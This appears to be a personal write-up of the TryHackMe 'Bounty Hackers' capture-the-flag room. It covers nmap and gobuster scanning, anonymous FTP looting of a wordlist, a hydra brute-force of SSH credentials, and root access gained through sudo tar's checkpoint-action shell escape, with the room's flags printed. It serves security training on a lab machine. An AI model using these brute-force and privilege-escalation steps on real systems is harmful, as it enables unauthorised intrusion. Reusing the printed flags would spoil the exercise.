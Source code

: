 ```yaml
---
title: "TryHackMe Bounty Hackers CTF"
date: 2022-11-13 17:49:00 +0100
categories: [TryHackMe, CTF]
tags: [tryhackme, ctf, hacking, kali linux, offensive]     # TAG names should always be lowercase
---
```



My Write-up of the TryHackMe CTF Bounty Hackers:

## Scan
First I start with a nmap scan. I like to use the -A (equivalent to -sV -O -sC --traceroute) flag and scan all ports (-p-):

```bash
$ nmap -A -p- 10.10.162.62 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-10 09:45 EST
Nmap scan report for 10.10.162.62
Host is up (0.031s latency).
Not shown: 55529 filtered tcp ports (no-response), 10003 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can´t get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:xxx
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn´t have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.33 seconds
```

3 open ports, one website on port 80, ftp and ssh.
So let´s start with the website and check it out:

![bounty hackers website](/assets/img/post-images/bounty-hackers.png)

I used gobuster for directory scanning:

```bash
$ gobuster dir -u http://10.10.162.62  -w /usr/share/wordlists/dirbuster/directory-1ist-2.3-medium.txt 
============================================================
Gobuster v3.1.0 
by OJ Reeves (@TheClonia1) & Christian Mehlmauer (@firefart)
============================================================
[+] Url:                    http://10.10.162.62 
[+] Method :                GET
[+] Threads:                10
[+] Wordlist:               /usr/share/word1ists/dirbuster/directory-1ist-2.3-medium.txt
[+] Negative Status codes:  404
[+] User Agent:             gobuster/3.1.0
[+] Timeout:                10s
============================================================
2022/11/10 09:46:37 Starting gobuster in directory enumeration mode 
============================================================
/images             (Status: 301) [Size: 313] [--> http://10.10.162.62/images/] 
Progress: 1062 / 220561 (0.48%) 
```
Even though I let it finish, I didn´t find anything of interest.

## Enumeration

So on to the next option, FTP. In the NMAP scan we saw that anonymous login is enabled, so let´s log in:
```bash
$ ftp 10.10.162.62 21
Connected to 10.10.162.62.
220 (vsFTPd 3.0.3)
Name (10.10.162.62:krussve): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||44405|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |*************************************************************************************|   418        9.82 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (5.52 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |*************************************************************************************|    68        1.01 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.68 KiB/s)
ftp> 
```

Looking at the first file we have a bunch of words, which look a lot like potential passwords:
```bash
$ cat locks.txt                          
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

Through the second file we get a username 'lin' which might be used to answer **Q3**:
```bash
$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
## Initial access
We have everything we need to try and attack SSH using hydra, which also answers **Q4**:
```bash
$ hydra -l lin -P locks.txt 10.10.162.62 ssh                           
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-10 10:02:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.162.62:22/
[22][ssh] host: 10.10.162.62   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-10 10:02:29
```

And we´ve got: 'login: lin' and 'password: RedDr4gonSynd1cat3'. So answer Q5 and login to SSH:
```bash
$ ssh lin@10.10.162.62           
The authenticity of host '10.10.162.62 (10.10.162.62)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.162.62' (ED25519) to the list of known hosts.
lin@10.10.162.62's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}
```
## Privilege Escalation
We immediately got the user flag for **Q6**. Now we start with privilege escalation to become root.
I usually start by checking ```sudo -l``` and got lucky.
We can abuse the tar functionality of setting checkpoints. the ```checkpoint=1``` creates the checkpoint before reading the Nth record. In our case, the checkpoint is done immediately. The ```--checkpoint-action=exec=/bin/sh``` is an action done within that checkpoint. In our case, we create a shell and since the process is executed with sudo, we get root access, hurray!
So just find the root directory and then the flag for **Q7**.

```shell
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/` from member names
# ls
user.txt
# whoami
Root
# cd ..
# ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
# cd ..
# ls
lin
# cd ..
# ls
bin   cdrom  etc   initrd.img      lib    lost+found  mnt  proc  run   snap  sys  usr  vmlinuz
boot  dev    home  initrd.img.old  lib64  media       opt  root  sbin  srv   tmp  var  vmlinuz.old
# cd root
# ls
root.txt
# cat root.txt
THM{80UN7Y_h4cK3r}
```
